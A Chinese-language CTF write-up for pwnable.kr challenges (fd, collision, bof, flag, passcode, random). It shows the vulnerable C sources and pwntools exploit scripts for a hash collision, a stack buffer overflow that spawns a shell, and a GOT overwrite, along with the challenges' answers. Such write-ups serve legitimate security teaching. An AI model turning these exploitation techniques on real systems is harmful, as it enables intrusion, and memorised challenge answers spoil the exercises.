

# pwnable解题记录

[https://pwnable.kr](https://pwnable.kr)

[TOC]

## fd

知识点：

- 文件描述符fd，值及含义：
  - `0`——标准输入
  - `1`——标准输出
  - `2`——标准错误输出

`fd.c`文件如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```

可控参数`argv[1]`，第13行`if`条件需要`buf`值为`LETMEWIN\n`，所以需要在第10行使`fd = atoi( argv[1] ) - 0x1234 = 0`，如此便可在第12行向`buf`中输入内容`LETMEWIN\n`得到flag。


## collision

`col.c`文件如下：

```c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}
```

需要传入一个20字节的参数`argv[1]`，然后该参数被强制转换为长度为5的整形数组（刚好一个整型4字节），数组5个元素之和要等于`0x21DD09EC`，即可获得flag。传参时注意使用小端序即可，脚本如下：

```python
#!/usr/bin/python
#coding:utf-8
from pwn import *

if __name__ == '__main__':
    #context(log_level='debug')
    s = ssh(host="pwnable.kr", user="col", password="guest", port=2222)
    payload = '\xc8\xce\xc5\x06' * 4 + '\xcc\xce\xc5\x06'
    p = s.process(argv=['./col', payload])
    print p.recv()
```


## bof

`bof.c`文件如下：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

`func`函数要求传入参数`key=0xcafebabe`才能返回shell，但`main`函数中调用`func`时传的参数值并不符合要求。所以我们要通过`func`函数中的输入点来进行缓冲区溢出（buffer over flow/bof），将`key`的值覆盖为我们想要的值`0xcafebabe`。

首先使用`gdb`进行调试：

可以在`func`函数处下断点，运行至`func`函数后单步执行到其中的输入点`gets`函数处：


在执行`gets`函数前，我们先生成一段探针


然后在输入点传入这段探针：


可以看到`gets`函数之后就是`cmp`


地址`ebp+0x8`里的内容和`0xcafebabe`进行比较，然后跳转，这里也就对应`bof.c`中`func`函数的`if`条件句。

此时我们查看地址`ebp+0x8`中的内容：


`0x41474141`即`AGAA`，注意端序，实际应该是`AAGA`。由此我们计算出偏移值为52，如上图。

接下来就可以写脚本了。

```python
#!/usr/bin/python
#coding:utf-8
from pwn import *

if __name__ == '__main__':
    context(log_level='debug')

    p = remote("pwnable.kr", 9000)
    payload = 'A' * 52 + p32(0xcafebabe)  # 偏移值之后接上我们需要覆写的内容
    p.sendline(payload)
    p.interactive()
```


## flag

没有源码，依题目所说，这是个简单的逆向，`gdb`调试就能搞定。

下载文件后，直接`gdb`调试出现了点问题，后来发现是`upx`加壳程序，`upx -d flag`脱壳后就可以正常调试了。

在`main`函数中单步调试，在`malloc`之后两条指令，就可以看到，flag串地址被送到了寄存器`rdx`中，顺便也就看到了flag内容。


## passcode

首先将服务器上的文件拷贝到本地，方便使用自己熟悉的环境进行调试

```shell
scp -r -P 2222 passcode@pwnable.kr:/home/passcode ./
```

passcode.c

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

这里按照正常逻辑是走不通的，因为`login`函数中两个`scanf`在给`passcode1`和`passcode2`传参时没有取地址，这样我们输入的内容就写到了一个随机的地址中，取决于两个`passcode`的初值。

分析一下程序执行过程中的函数栈变化，发现可以通过`welcome`函数中的数组`name`的最后四个字节来控制`passcode1`的内容，示意图如下：


由此我们通过`name`将`passcode1`的内容写为函数`fflush`的GOT表项地址，然后在`scanf("%d", passcode1);`处输入程序第19行（`system("/bin/cat flag");`）代码对应的地址，这样在接下来执行`fflush`函数时，实际上就会跳转到这里，拿到flag。

```shell
objdump -S passcode
```



找到这一行的地址`0x80485e3`。注意地址应取`call`指令之前一行，因为在调用`system`函数之前还需要传参（"/bin/cat flag"）。

exp如下：

```python
#!/usr/bin/python
#coding:utf8
from pwn import *


if __name__ == '__main__':
	#context(log_level = 'debug')
	s = ssh(host='pwnable.kr', port=2222, user='passcode', password='guest')
	p = s.process('./passcode')
	elf = ELF('./passcode')
	payload = 'A'*96 + p32(elf.got['fflush']) + str(0x080485e3)
	p.sendline(payload)
	p.interactive()
```


## random

random.c

```c
#include <stdio.h>

int main(){
	unsigned int random;
	random = rand();	// random value!

	unsigned int key=0;
	scanf("%d", &key);

	if( (key ^ random) == 0xdeadbeef ){
		printf("Good!\n");
		system("/bin/cat flag");
		return 0;
	}

	printf("Wrong, maybe you should try 2^32 cases.\n");
	return 0;
}
```

没有设置动态随机数种子的情况下，调用`rand`函数生成的随机数序列是相同的，自己测试一下可以知道Linux下直接调用`rand()`得到的是`1804289383`，则

```
key = 1804289383 ^ 0xdeadbeef
	= 3039230856
```


## input

